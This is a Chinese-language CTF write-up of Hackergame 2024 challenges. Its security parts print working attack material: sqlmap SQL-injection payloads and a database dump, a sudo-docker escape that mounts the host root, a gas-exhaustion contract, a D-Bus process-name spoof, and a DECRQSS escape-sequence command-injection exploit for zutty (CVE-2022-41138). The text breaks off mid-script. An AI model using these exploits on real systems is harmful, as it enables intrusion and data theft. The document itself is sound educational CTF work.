    Payload: conversation_id=-5378' UNION ALL SELECT CHAR(113,122,98,118,113)||CHAR(113,115,89,66,81,112,104,66,119,117,82,65,120,72,110,79,69,82,108,103,71,71,90,114,115,116,76,67,72,112,120,84,81,97,121,122,71,66,118,116)||CHAR(113,106,98,98,113),NULL-- ZaFM
---
[17:54:39] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite

```

因为这个题目使用的数据库是SQLite，是脱不出库名的，我们直接脱表

```
$ ... --tables
[17:57:12] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[1 table]
+----------+
| messages |
+----------+
```

脱字段

```
$ ... -T 'messages' --columns
[17:58:33] [INFO] fetching columns for table 'messages' 
Database: <current>
Table: messages
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| contents | text    |
| id       | text    |
| shown    | boolean |
| title    | text    |
+----------+---------+
```

发现有shown字段。那就肯定有展示的和没展示的。把shown和id连带着脱下来：

```
$ ... -T 'messages' -C 'id,shown' --dump
[18:00:57] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/path/to/messages.csv'
```

哥们！！！库脱下来了！！查数据！



访问`/view?conversation_id=cb30e667-1ba7-4863-a9c9-8773dfaac619`，拉到页面最底部即可获得flag。



## 千里挑一

> 小 Q 看着这些聊天记录，突然发现里面好像有 flag……

那就藏在剩下的聊天记录里。直接写爬虫开爬。

```python
import pandas as pd
import requests

# CSV文件路径
csv_file_path = '/path/to/messages.csv'

# 目标URL的基础部分
base_url = 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id='

# HTTP头部信息
headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate, br, zstd',
    'Accept-Language': 'zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7',
    'Cache-Control': 'no-cache',
    'Connection': 'keep-alive',
    'Cookie': '_ga=GA1.1.1498233831.1719196175; _ga_Q8WSZQS8E1=GS1.1.1730476974.5.0.1730476982.52.0.1779972184; _ga_R7BPZT6779=GS1.1.1731134815.10.1.1731135175.60.0.794122736; session=YuShengJun',
    'DNT': '1',
    'Host': 'chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443',
    'Pragma': 'no-cache',
    'Referer': 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/list',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36',
    'sec-ch-ua': '"Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Linux"'
}

# 读取CSV文件
df = pd.read_csv(csv_file_path)

# 检查每个ID
for index, row in df.iterrows():
    conversation_id = str(row['id'])
    url = base_url + conversation_id
    response = requests.get(url, headers=headers)
    
    # 检查响应中是否包含以flag{开头，以}结尾的字符串
    if 'flag{' in response.text and '}' in response.text:
        flag_start = response.text.find('flag{')
        flag_end = response.text.find('}', flag_start)
        flag = response.text[flag_start:flag_end+1]
        print(f'Found flag for ID {conversation_id}: {flag}')
```

```
[Running] python -u "/home/elvinstarry/Documents/go/src/tempCodeRunnerFile.python"
Found flag for ID d3c4ad84-2404-401a-8e4e-df71804956a9: flag{zU1_xiA0_de_11m_Pa0lule!!!_YuShengJun}
Found flag for ID cb30e667-1ba7-4863-a9c9-8773dfaac619: flag{enJ0y_y0uR_Sq1_&amp;_1_would_xiaZHOU_hUI_guo_YuShengJun}

[Done] exited with code=null in 124.08 seconds
```

结束。

# 强大的正则表达式

前面的题目好玩吗？是不是感觉CTF也很简单？

那么，要开始了哟~

> 终于在一个不眠夜，小 Q 一口气看完了正则表达式的教程。哈？原来这么简单？小 Q 并两分钟写完了自测题目，看着教程剩下的目录，「分组」、「贪婪」、「前瞻」，正则表达式也不过如此嘛，他心想，也就做一些邮箱匹配之类的简单任务罢了。
>
> 正当他还沉浸在「不过如此」的幻想中，他刷到了那个关于正则表达式的古老而又神秘的传说：
>
> 「正则表达式可以用来计算取模和 CRC 校验……」

我草，我怎么没刷到过。

别慌，看一眼题目分类：math。哈哈。

## Easy

```python
for i in range(num_tests):
    expected_result = (i % 2 == 0)
    while True:
        t = random.randint(0, 2**64)  # random number for testing
        if difficulty == 1:
            test_string = str(t)  # decimal
            if (t % 16 == 0) == expected_result:  # mod 16
                break
    regex_result = bool(regex.fullmatch(test_string))
    if regex_result == expected_result:
        print("Pass", test_string, regex_result, expected_result)
```

需要我们通过正则表达式匹配所有取模16为0的数。被16整除的数的特征很简单：数的后四位可被16整除。但是怎么用正则表示呢？

```python
max_len = 1000000
```

嗯？

直接匹配所有末4位是16的倍数的数字就行了。只不过会很长。使用python生成：

```python
# 生成所有4位数以内的16的倍数，不足4位向前补0
multiples_of_16 = [f'{i:04d}' for i in range(16, 10000, 16)]

output = '(' + '|'.join(multiples_of_16) + ')'
print(output)
```

结尾有了，但是注意到

```python
allowed_chars = "0123456789()|*"
```

我们需要一些奇技淫巧才能匹配上前面所有的数字，从而使`re.fullmatch()`为`True`。注意到待匹配字符串全为数字，所以

```
(0|1|2|3|4|5|6|7|8|9)*
```

即可匹配所有数字。

故完整表达式为：

```
(0|1|2|3|4|5|6|7|8|9)*(0016|0032|0048|0064|0080|0096|0112|0128|......)
```

即可获得flag。

> 注意到官方writeup里有这么一句话：严格来说还要考虑不足四位的情况，但是测试数据里面出现这种情况的概率很小，忽略掉也是通过的。
>
> ```python
> t = random.randint(0, 2**64)
> ```
>
> 能从2^64里随机出小于四位的数，有这运气还不如启动明日方舟来一发648。

## Medium

```python
for i in range(num_tests):
    expected_result = (i % 2 == 0)
    while True:
        t = random.randint(0, 2**64)  # random number for testing
        # ...
        elif difficulty == 2:
            test_string = bin(t)[2:]  # binary
            if (t % 13 == 0) == expected_result:  # mod 13
                break
# ...
```

需要我们对一段二进制字符串进行匹配。这段二进制对应的十进制数字的取模13为0。可以构造一个DFA实现这一点：

- 状态集合是$Q = \{0, 1, 2, ..., 12\}$，代表除以13的所有余数

- 字母表是$\sum = \{0, 1\}$，即二进制数字

- 转移函数 
  $$
  \delta(q,0) = (2q) \mod{13} \\
  \delta(q,1) = (2q+1) \mod{13}
  $$

- 初始状态为$q_0 = 0$；接受状态$F = \{0\}$，代表可被13整除。

然后使用状态消除法生成正则表达式即可。

但是我不喜欢造轮子，经过一番寻找，在外网找到了一位大佬在2007年发的一篇博客，给出了使用DFA和状态消除法达到上述目的的Haskell代码。不过2007年的代码到现在已有兼容问题，做一些修改后正常运行了。修改后的代码已上传到Glot.IO Snippet：https://glot.io/snippets/h1mudpsx58



使用生成的正则表达式提交即获得Flag 2。

# 惜字如金 3.0

## A

贴入Visual Studio Code，对着检查出来的问题一个个改回去即可。

## B

除了像A一样还原出代码外，我们还注意到代码第7行的CRC多项式已被惜字如金化：

```python
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'B', 48 
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'B' 
    flip = sum(['b', 'B'].index(poly[i + 1]) << i for i in range(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in range(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xdbeEaed4cF43, 0xFDFECeBdeeD9, 0xB7E85A4E5Dcd                 
    assert (u2, u1, u0) == (241818181881667, 279270832074457, 202208575380941)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'little')                                   
```

对于CRC多项式的逆推已有现成工程：https://reveng.sourceforge.io/，现在仍在活跃更新。但对于hash函数的逆推，注意到：
$$
\rm{digest} = (crc \times (crc \times u2 + u1) + u0 ) \mod{(2^{48})}
$$
要从$$\rm{digest}$$回溯到$$\rm{crc}$$，我们需要解这个模$$2^{48}$$下的一元二次同余方程。但由于$$2^{48}$$过于庞大，解上述方程较为困难，且可能有多解，我没做出来（

后经群内掌管惜字如金的神介绍，Wolfram Cloud可以提供算力。以后试试。

对此题有兴趣的可以看看官方writeup。

# 优雅的不等式

## Easy

>注意力惊人

> 你需要用优雅的方式来证明 $$\pi$$大于等于一个有理数$$\frac{p}{q}$$。
>
> 具体来说就是只使用**整数**和**加减乘除幂运算**构造一个简单函数$$f(x)$$，使得这个函数在[0,1]区间上取值均大于等于 0，并且 $$f(x)$$ 在 [0,1] 区间上的定积分（显然大于等于 0）刚好等于 $$\pi-\frac{p}{q}$$。
>
> 给定题目（证明  $$\pi-\frac{p}{q}$$），你提交的证明只需要包含函数$$f(x)$$。
>
> - 要优雅：函数字符串有长度限制，
> - 要显然：SymPy 能够**快速**计算这个函数的定积分，并验证[0,1]上的非负性。
>
> 注：解决这道题不需要使用商业软件，只使用 SymPy 也是可以的。

对于难度0，验证器内已给出示例解答：`4*((1-x**2)**(1/2)-(1-x))`，即
$$
4\sqrt{(1-x^2)}-(1-x)
$$
对于难度1，我们需要给出的$$f(x)$$在[0,1]非负，且定积分恰好等于$$\pi-\frac{8}{3}$$。

注意到$$y = 4\sqrt{(1-x^2)}$$中$$x \in [0,1]，y > 0$$，故它描述了一个单位圆$$x^2+y^2=1$$在第一象限的部分。所以
$$
\begin{align}
\int_{0}^{1} 4\sqrt{(1-x^2)} dx &= 4\int_{0}^{1}\sqrt{(1-x^2)}dx \\
&= 4\times\frac{\pi}{4} \\
&= \pi
\end{align}
$$
因此，我们可以类比难度0的解法，设$$f(x) = g(x) - h(x)$$。已知可以令$$g(x) = 4\sqrt{(1-x^2)}$$，我们只需要找到一个h(x)，使其在[0,1]的定积分为$$\frac{8}{3}$$，且保证$$f(x)$$非负。注意到
$$
\begin{align}
\frac{8}{3} = 4\times\frac{2}{3} &= 4\times(1-\frac{1^3}{3}) \\
&= 4\int_{0}^{1}(1-x^2)dx
\end{align}
$$
故构建$$f(x)=4\sqrt{(1-x^2)}-4(1-x^2)$$，即`4*(1-x**2)**(1/2)-4*(1-x**2)`，其在[0,1]定积分即为$$\pi-\frac{8}{3}$$。非负性证明略。



# Docker for Everyone Plus

> 提供的环境会自动登录低权限的 `user` 用户。登录后可以通过特定的 `sudo docker` 命令使用 Docker，通过 `sudo -l` 可以查看允许提权执行的命令。读取 `/flag`（注意其为软链接）获取 flag。提供的环境中有 `rz` 命令，可以使用 ZMODEM 接收文件。

ZModem真绷不住了，这东西之前是走电话线的，速度都以B/s计的，没想到又能在这看见它。

## No Enough Privilege

启动环境。在慢腾腾的OpenRC启动之后，查看我们可以使用的命令。

```
dockerv:~$ sudo -l
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, /usr/bin/docker
        image load, !/usr/bin/docker * -u0*, !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, !/usr/bin/docker * -ur*, !/usr/bin/docker
        * -u?r*, !/usr/bin/docker * --user?r*
```

需要我们以容器内`1000:1000`用户启动。没限制privileged自然是极好的。考虑到ZModem的龟速上传速度，我们需要一个极其轻量化的docker镜像。这里使用alpine，下载之后不到4M。

```bash
docker pull alpine:latest
docker run -itd --name alpine alpine
docker exec -it alpine /bin/sh
addgroup -g 1000 user
adduser -s /bin/sh -G user user
passwd user
#输入user密码
passwd root
#输入root密码
exit
docker container stop alpine
docker commit alpine alpine0
docker save -o /path/to/alpine0.tar alpine0  #生成tar有8M
gzip -9 -k /path/to/alpine0.tar
```

然后，这边建议您使用 ***Arch Linux*** 进行ZModem文件上传。在Windows内由于未知原因，Xshell上传没速度。若您是Windows的忠实用户，官方writeup的说法是：

> 至于 Windows 用户，我也不知道咋上传。

在Arch内安装好`lrzsz`软件包后，在Konsole内使用`stty raw -echo; nc 202.38.93.141 10338; stty sane`连接第一小题。连接好后，

```bash
mkdir /tmp/abc   # Read-only  一生之敌
cd /tmp/abc
rz
```

即可启动文件传输。选择你打好的`alpine0.tar.gz`，上传完成后

```bash
gzip -d alpine0.tar.gz
cat alpine0.tar | sudo /usr/bin/docker image load
sudo docker run --rm -u 1000:1000 -it --ipc=host --device=/dev/vdb -v /:/out alpine0
su root
#输入root密码
cat /out/flag
```

即得flag。

# 链上转账助手

> Web3大神能不能给我刷点比特币

main.py在本地开了个以太坊测试节点，部署挑战合同和十个玩家合同，并调用挑战合同的`batchTransfer`方法向所有玩家合同批量转账1个ETH。我们需要让玩家合同成功部署的同时造成转账失败。

## 转账失败

challenge1.sol：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BatchTransfer {
    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            recipients[i].transfer(amounts[i]);
        }
    }
}

```

由于在`recipients[i].transfer(amounts[i]);`中向玩家合约发送ETH时，玩家合约需要有receive函数接收。若没有就会导致转账失败。

直接把challenge1.sol编译一下作为player bytecode运行即可转账失败。

## 转账又失败

challenge2.sol：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BatchTransfer {
    mapping(address => uint256) public pendingWithdrawals;

    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            (bool success, ) = recipients[i].call{value: amounts[i]}("");
            if (!success) {
                pendingWithdrawals[recipients[i]] += amounts[i];
            }
        }
    }

    function withdrawPending() external {
        uint256 amount = pendingWithdrawals[msg.sender];
        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success, "Withdrawal failed");
    }
}

```

这次加入了`withdrawPending`函数，用于在转账失败时取回未转账成功的ETH，并返回成功。但是注意到：`(bool success, ) = recipients[i].call{value: amounts[i]}("");`并没有设置gas限制，所以我们只需要消耗大量gas即可导致转账失败。当时编译用的合约做challenge3的时候删掉了（虽然也没做出来），可以参考一下官方writeup：

>```
>// SPDX-License-Identifier: MIT
>pragma solidity ^0.8.0;
>
>contract Receiver {
>receive() external payable {
>   while(gasleft() > 100) {}
>}
>}
>```
>
>如果想深入这一小问的细节的话，其实智能合约在调用另一个智能合约的时候，只会传递剩余 gas 的 63/64。所以一次转账的时候接收者耗尽了 gas，并不会让批量转账合约也立即就耗尽 gas。但是，由于这题是 10 次转账，每次都会把剩下的 gas 传递过去，而合约调用本身又会消耗不少的固定 gas，所以很快就会导致批量转账合约的 gas 耗尽。

# 不太分布式的软总线

## What DBus Gonna Do?

虽说可以上传带有shebang的脚本，又虽说Dockerfile里有安装`dbus-send`，但是我在写wp复现的时候它又没有了。

```bash
#!/bin/sh

SERVICE="cn.edu.ustc.lug.hack.FlagService"
INTERFACE="cn.edu.ustc.lug.hack.FlagService"
PATH="/cn/edu/ustc/lug/hack/FlagService"
METHOD="GetFlag1"

PARAMETER="Please give me flag1"

FLAG=$(dbus-send --system --print-reply --dest=$SERVICE $PATH $INTERFACE.$METHOD string:$PARAMETER | grep variant | awk '{print $3}')

echo "Flag1: $FLAG"
```

```
stderr (标准错误，前 8192 个字节):
/dev/shm/executable: 13: dbus-send: not found
/dev/shm/executable: 13: grep: not found
/dev/shm/executable: 13: awk: not found
```

行吧，用C写。

```c
#include <gio/gio.h>
#include <glib.h>
#include <stdio.h>

static void on_get_flag1_completed(GObject *source_object, GAsyncResult *res,
                                  gpointer user_data) {
  GDBusProxy *proxy = G_DBUS_PROXY(source_object);
  GError *error = NULL;
  GVariant *result = NULL;

  result = g_dbus_proxy_call_finish(proxy, res, &error);
  if (error != NULL) {
    g_printerr("Error calling GetFlag1: %s\n", error->message);
    g_error_free(error);
  } else {
    const char *flag;
    g_variant_get(result, "(s)", &flag);
    printf("Received flag1: %s\n", flag);
  }

  if (result != NULL) {
    g_variant_unref(result);
  }
  g_object_unref(proxy);
  g_main_loop_quit((GMainLoop *)user_data);
}

int main() {
  GError *error = NULL;
  GDBusConnection *connection;
  GDBusProxy *proxy;
  GMainLoop *main_loop;

  // 连接dbus
  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (error != NULL) {
    g_printerr("Could not connect to system bus: %s\n", error->message);
    g_error_free(error);
    return 1;
  }


  proxy = g_dbus_proxy_new_sync(
      connection, G_DBUS_PROXY_FLAGS_NONE, NULL, 
      "cn.edu.ustc.lug.hack.FlagService",       // Service name
      "/cn/edu/ustc/lug/hack/FlagService",      // Object path
      "cn.edu.ustc.lug.hack.FlagService",       // Interface name
      NULL,                                     
      &error);                                 
  if (error != NULL) {
    g_printerr("Could not create proxy: %s\n", error->message);
    g_error_free(error);
    g_object_unref(connection);
    return 1;
  }

  // 主循环
  main_loop = g_main_loop_new(NULL, FALSE);

  // 调用GetFlag1
  g_dbus_proxy_call(
      proxy, "GetFlag1", g_variant_new("(s)", "Please give me flag1"), // 方法名和参数
      G_DBUS_CALL_FLAGS_NONE, -1, NULL, // Flags, 超时，Cancellable
      on_get_flag1_completed, main_loop); // 回调

  // 主循环
  g_main_loop_run(main_loop);

 
  g_object_unref(proxy);
  g_object_unref(connection);
  g_main_loop_unref(main_loop);

  return 0;
}
```

运行即得Flag。

## If I Could Be A File Descriptor

对于flag2，我们需要通过文件描述符向DBus Server传递信息`Please give me flag2\n`，且该文件描述符不能是文件系统上的实际文件。行吧，用匿名管道或者套接字对都可以，这里用匿名管道。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <gio/gio.h>
#include <glib.h>
#include <unistd.h>
#include <fcntl.h>

int main(void) {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;
    GUnixFDList *fd_list;
    int pipe_fds[2];  // [0]: 读端, [1]: 写端

    // 创建管道
    if (pipe(pipe_fds) == -1) {
        perror("pipe");
        exit(EXIT_FAILURE);
    }

    // 消息进写端
    const char *message = "Please give me flag2\n";
    write(pipe_fds[1], message, strlen(message));
    close(pipe_fds[1]); // Close the write-end after writing

    // 连dbus
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (error != NULL) {
        g_printerr("Error connecting to system bus: %s\n", error->message);
        g_error_free(error);
        exit(EXIT_FAILURE);
    }

    // 开FD list带入管道读端
    fd_list = g_unix_fd_list_new();
    gint fd_index = g_unix_fd_list_append(fd_list, pipe_fds[0], &error);
    if (error != NULL) {
        g_printerr("Error adding FD to FDList: %s\n", error->message);
        g_error_free(error);
        exit(EXIT_FAILURE);
    }

    // GetFlag2
    result = g_dbus_connection_call_with_unix_fd_list_sync(
        connection,                            
        "cn.edu.ustc.lug.hack.FlagService",    
        "/cn/edu/ustc/lug/hack/FlagService",   
        "cn.edu.ustc.lug.hack.FlagService",   
        "GetFlag2",                            
        g_variant_new("(h)", fd_index),        // 文件描述符
        G_VARIANT_TYPE("(s)"),                 
        G_DBUS_CALL_FLAGS_NONE,                
        -1,                                    
        fd_list,                               // FD list
        NULL,                                  
        NULL,                                  
        &error                                 
    );

    close(pipe_fds[0]);  //关读端

    if (error != NULL) {
        g_printerr("Error calling GetFlag2: %s\n", error->message);
        g_error_free(error);
        exit(EXIT_FAILURE);
    }

    
    if (result) {
        gchar *flag;
        g_variant_get(result, "(s)", &flag);
        g_print("Flag2: %s\n", flag);
        g_variant_unref(result);
    }

    g_clear_object(&connection);
    g_clear_object(&fd_list);

    return 0;
}
```

## Comm Say Maybe

对于flag3，flagserver通过`GetConnectionUnixProcessID`获取程序PID，然后读取`/proc/{pid}/comm`获取调用者进程名，进程名需要为`getflag3`。但是上传到判题平台上的进程都会被放到`/dev/shm/executable`，就按hackergame这习性说不定还是个read-only。搜索一番后，发现可以使用`prctl`修改进程名称，其`PR_SET_NAME`选项可以让我们修改的进程名显示在`/proc/{pid}/comm`里。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <gio/gio.h>
#include <sys/prctl.h>

int main() {
    // 设置进程名称为 "getflag3"
    if (prctl(PR_SET_NAME, "getflag3", 0, 0, 0) == -1) {
        perror("prctl PR_SET_NAME failed");
        return 1;
    }

    // dbus
    GError *error = NULL;
    GDBusConnection *connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to get system bus: %s\n", error->message);
        g_clear_error(&error);
        return 1;
    }

    // getflag3
    GVariant *result = g_dbus_connection_call_sync(
        connection,                                
        "cn.edu.ustc.lug.hack.FlagService",        
        "/cn/edu/ustc/lug/hack/FlagService",       
        "cn.edu.ustc.lug.hack.FlagService",        
        "GetFlag3",                                
        NULL,                                      
        G_VARIANT_TYPE("(s)"),                     
        G_DBUS_CALL_FLAGS_NONE,                    
        -1,                                        
        NULL,                                      
        &error                                     
    );

    if (error) {
        g_printerr("Failed to call GetFlag3: %s\n", error->message);
        g_clear_error(&error);
        g_object_unref(connection);
        return 1;
    }

    // 获取返回的 flag3 值
    const gchar *flag3;
    g_variant_get(result, "(&s)", &flag3);
    g_print("flag3: %s\n", flag3);

    // 清理
    g_variant_unref(result);
    g_object_unref(connection);

    return 0;
}
```

# 动画分享

> ......于是就只在自己最常使用的、**几年前编译的某~~祖传~~终端模拟器**里面跑起了自己的 `fileserver`，然后就去锁屏吃饭了。

哦？看一下Dockerfile:

```dockerfile
FROM ustclug/debian:bullseye AS builder

RUN apt update && apt install -y git build-essential python3-dev pkg-config libfreetype-dev libxmu-dev libgles2-mesa-dev && \
    git clone https://git.hq.sig7.se/zutty.git && cd zutty && git checkout 0.12 && \
    ./waf configure && ./waf
```

单独签出一个zutty的0.12版本。有、意思。

https://bugs.gentoo.org/868495：(CVE-2022-41138) - <x11-terms/zutty-0.13: arbitrary code execution via DECRQSS (like CVE-2008-2383)

有、意思。

```
x11-terms/zutty contains a vulnerability which allows arbitrary commands to be run by an attacker who can cause output to be sent to the terminal. Specifically, they can include newlines in an invalid DECRQSS command and Zutty will send those newlines (along with any command included) back to the shell. This vulnerability very closely resembles CVE-2008-2383 in xterm.
```

这个漏洞会让DECRQSS序列里包含的payload直接转发到终端里（模拟用户输入）。需要注意的是，当向终端发送`\n`时，攻击者可以把任意命令插入终端输入流并执行。

看一下fileserver的代码：

```rust
println!("Received request: {}", request.lines().next().unwrap_or(""));
```

它会把（它认为的）HTTP请求头在终端模拟器中打印出来。这就有了在终端里执行DECRQSS序列命令执行漏洞的可能。

## 只要不停下 HTTP 服务，响应就会不断延伸

> 如果你能让小 T 的 `fileserver` 无法正常响应请求（例如让 `fileserver` 退出），你可以获得第一小题的 flag。

我们在使用终端时，如果要停止一个程序运行，最直接的办法就是按下`Ctrl-C`。这会向终端发送`\x03`。

> In both [ASCII](https://en.wikipedia.org/wiki/ASCII) and [EBCDIC](https://en.wikipedia.org/wiki/EBCDIC), ETX is [code point](https://en.wikipedia.org/wiki/Code_point) 0x03, often displayed as ^C, and a (ASCII) terminal can send it by typing Ctrl+C.
>
> ——Wikipedia

故只需模拟Ctrl-C输入即可停止文件服务器。payload: `\x1bP$q\x03\x1b\\\n`打8000端口即可。

## 希望的终端模拟器，连接着我们的羁绊

现在可以停止服务器了，我们还需要执行代码，输出`/flag2`的内容。由于zutty的stdout被写入/dev/null，我们需要通过运行的文件获取flag。可以利用已在root权限的zutty再开一个http服务，或者像官方wp那样复制出来后使用降权exe读取。

执行任意代码的payload如下：`\x1bP$q\n some-command \x1b\\\n`

但是有一个问题。

```rust
println!("Received request: {}", request.lines().next().unwrap_or(""));
```

fileserver只会向zutty输出第一行内容（`.lines().next()`），payload到`\n`就截断了。官方writeup给出的方案是...使用`\r`。嘛，一般写代码都是`\n`的吧，这个有谁会记得......

但是，再看一下，要构成一个完整的DECRQSS序列是需要`\x1b\\`结尾的，只靠一个`\n`作不了结尾。因此即使payload会被隔断，我们也可以通过多次发送、多次打印日志的方式传输payload，传输完整后再发送结尾。

```python
sendReq(b'\x1bP$q\x03\n')  # 这相当于在zutty内模拟用户输入，我们需要先停掉fileserver再向shell发送命令
command = f' || (python3 -m http.server {http_port} -d / )\n'.encode()  
sendReq(command)  # 由于发送时fileserver的日志输出是"Received request: ..."，因此需要用||让后面的指令始终执行
sendReq(b'\x1b\\\n')
```

发送后即可启动http服务，访问`/flag2`即得flag。



完整程序：

```python
#!/usr/bin/env python3

import socket
import time

def sendReq(payload, host="127.0.0.1", port=8000, timeout=2.0):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(timeout)
            sock.connect((host, port))
            sock.sendall(payload)
            return sock.recv(8192).decode()
    except Exception as e:
        return f"Error: {e}"

def main(http_port=7999):
    try:
        # Send the initial payload to start the HTTP server
        sendReq(b'\x1bP$q\x03\n')
        
        # Send the command to start the HTTP server
        command = f' || (python3 -m http.server {http_port} -d / )\n'.encode()
        sendReq(command)
        # Send the ending payload
        sendReq(b'\x1b\\\n')
        
        # Wait for the HTTP server to start
        time.sleep(2)
        
        # Send a GET request to the HTTP server
        get_request = f'GET /flag2 HTTP/1.1\r\nConnection: close\r\n\r\n'.encode()
